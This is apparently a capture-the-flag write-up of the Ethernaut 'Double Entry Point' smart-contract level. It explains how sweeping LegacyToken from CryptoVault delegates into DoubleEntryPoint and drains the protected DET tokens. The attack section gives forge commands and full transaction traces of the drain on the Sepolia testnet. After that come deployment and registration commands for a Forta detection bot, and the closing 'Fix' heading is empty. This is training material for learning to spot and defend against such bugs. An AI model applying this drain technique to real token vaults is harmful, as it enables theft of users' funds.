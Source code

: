 # Double Entry Point

This level features a `CryptoVault` with special functionality, the `sweepToken` function. This is a common function used to retrieve tokens stuck in a contract. The `CryptoVault` operates with an `underlying` token that can't be swept, as it is an important core logic component of the `CryptoVault`. Any other tokens can be swept.

The underlying token is an instance of the DET token implemented in the `DoubleEntryPoint` contract definition and the `CryptoVault` holds 100 units of it. Additionally the `CryptoVault` also holds 100 of `LegacyToken LGT`.

In this level you should figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens.

The contract features a `Forta` contract where any user can register its own `detection bot` contract. `Forta` is a decentralized, community-based monitoring network to detect threats and anomalies on DeFi, NFT, governance, bridges and other Web3 systems as quickly as possible. Your job is to implement a detection bot and register it in the `Forta` contract. The bot's implementation will need to raise correct alerts to prevent potential attacks or bug exploits.

[Contract ABI Specification](https://docs.soliditylang.org/en/latest/abi-spec.html#contract-abi-specification)

## Double Entry Point (DEP)

A `Double Entry Point (DEP)` in the context of token contracts is a security mechanism designed to protect smart contracts, especially those handling tokens, from unauthorized access or vulnerabilities.

While the term `Double Entry Point` isn't standard in Ethereum or smart contract development, the concept can be inferred to involve an additional layer of security or validation before certain actions can be performed, particularly those that could lead to the unauthorized movement of tokens.

### Conceptual Overview

1. `Standard Token Contract`: A typical token contract allows users to transfer tokens from one account to another. It includes functions like `transfer` and `approve`, which, if not properly secured, could be exploited.
2. `Double Entry Point Mechanism`: Introduces an additional layer or checkpoint before executing sensitive operations. This could be implemented in various ways, such as:
   - `Proxy Contracts`: A `DEP` might use a proxy contract that forwards calls to the main token contract. The proxy can contain additional checks or logic to validate transactions before they reach the token contract.
   - `Detection Bots`: A system like `Forta` allows for the registration of detection bots. These bots can monitor transactions for suspicious activity and potentially halt or flag transactions before they are executed, acting as a `DEP` by providing an additional validation step.


## Vulnerability

1. Initial setup:
   1. `CryptoVault` holds DET tokens and possibly other ERC20 tokens.
   2. `LegacyToken (LGT)` is an ERC20 token with an added delegation feature.
   3. `DoubleEntryPoint` is another ERC20 token (`DET`) that implements `DelegateERC20^ for delegation purposes and has a reference to `CryptoVault`.
2. Safeguard:
   1. `CryptoVault` has a `sweepToken` function designed to transfer any ERC20 token it holds to a predefined recipient, except for its underlying token (`DET` in this case), to prevent draining the vault of its primary asset.
3. Attack:
   1. The attacker notices that `LegacyToken (LGT)` can delegate its transfer function to another contract (`DoubleEntryPoint`) through `delegate.delegateTransfer`.
   2. The attacker invokes `sweepToken` on `CryptoVault`, specifying the `LGT` token as the token to sweep.
   3. `CryptoVault` checks if `LGT` is the underlying token (`DET`), which it's not, so it proceeds.
   4. `CryptoVault` calls `LGT.transfer`, intending to transfer LGT tokens.
4. Exploiting the delegation:
   1. `LegacyToken`'s `transfer` function is overridden to delegate the transfer to `DoubleEntryPoint` if a delegate is set.
   2. The call becomes `DoubleEntryPoint.delegateTransfer`, with the `to` parameter being the `sweptTokensRecipient`, the `value` being `CryptoVault`'s total balance of `LGT`, and `msg.sender` being `CryptoVault`.
5. Bypassing Safeguards:
   1. In `DoubleEntryPoint`, the `delegateTransfer` function checks if `msg.sender` is the `LegacyToken` contract, which it is, thus bypassing the `onlyDelegateFrom` modifier.
   2. The `fortaNotify` modifier is designed to interact with a `Forta` detection bot but does not prevent the transfer.
   3. `DoubleEntryPoint` then transfers `DET` tokens (the underlying asset of `CryptoVault` that was supposed to be safeguarded) to the specified recipient, effectively draining the vault of its primary asset.

## Attack

1.
```bash
# the delegate contract is the DoubleEntryPoint contract.

forge script script/DoubleEntryPointScan.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

Traces:
  [19238] DoubleEntryPointScan::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0x09EB1387490f88C413D80914cfdc9B94255729e8::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xfB8EF38BE23a2B6d3c572EB926fa2D0674EB3B21 # CryptoVault contract
    ├─ [2347] 0xfB8EF38BE23a2B6d3c572EB926fa2D0674EB3B21::underlying()
    │   └─ ← [Return] 0x09EB1387490f88C413D80914cfdc9B94255729e8 # DoubleEntryPoint/Ethernaut contract
    ├─ [2383] 0x09EB1387490f88C413D80914cfdc9B94255729e8::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x0E01F04Cf19fce75004AF6E02327E38d1CAF2517 # Legacy token contract
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]
````

2. 

```bash
forge script script/DeployDoubleEntryPointAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

Traces:
  [116080] DeployDoubleEntryPointAttack::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f
    ├─ [2347] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f::underlying() [staticcall]
    │   └─ ← [Return] 0xD34d38b269c9523a9329833B228a46D3b44ABD21
    ├─ [2383] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x72B92c2c00971CAa02097E86ee578f650066C2BA
    ├─ [57067] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f::sweepToken(0x72B92c2c00971CAa02097E86ee578f650066C2BA)
    │   ├─ [2557] 0x72B92c2c00971CAa02097E86ee578f650066C2BA::balanceOf(0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ [48677] 0x72B92c2c00971CAa02097E86ee578f650066C2BA::transfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20])
    │   │   ├─ [45519] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::delegateTransfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20], 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f)
    │   │   │   ├─ [2573] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::usersDetectionBots(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2) [staticcall]
    │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   ├─ [2541] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   ├─ [758] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::notify(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 0x9cd1a12100000000000000000000000064dd9d94818a2ca2e95c31b084aef0cc92e86da20000000000000000000000000000000000000000000000056bc75e2d63100000000000000000000000000000e94cf7f7f221cd103f882c6e3e04fc4f6681b07f)
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ emit Transfer(from: 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f, to: 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, value: 100000000000000000000 [1e20])
    │   │   │   ├─ [541] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 

# https://sepolia.etherscan.io/tx/0xceeaea7cee765e3f8c80d5fc1445b90f404f7964543bf80894f985854fd0815d
```

## Forta Bot

1.

```bash
# Forta contract= 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C
forge create FortaBot --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy --constructor-args 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f

# https://sepolia.etherscan.io/address/0x6a317a83402C20B1175DBE76b8006BFEbC10Cf26
```

2.

```bash
forge script ./script/RegisterBot.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

# https://sepolia.etherscan.io/tx/0x20cfbc2c28f7836f2efce8614da27308ca1806272bf1ad3517d7d593f3705594
```


## Fix

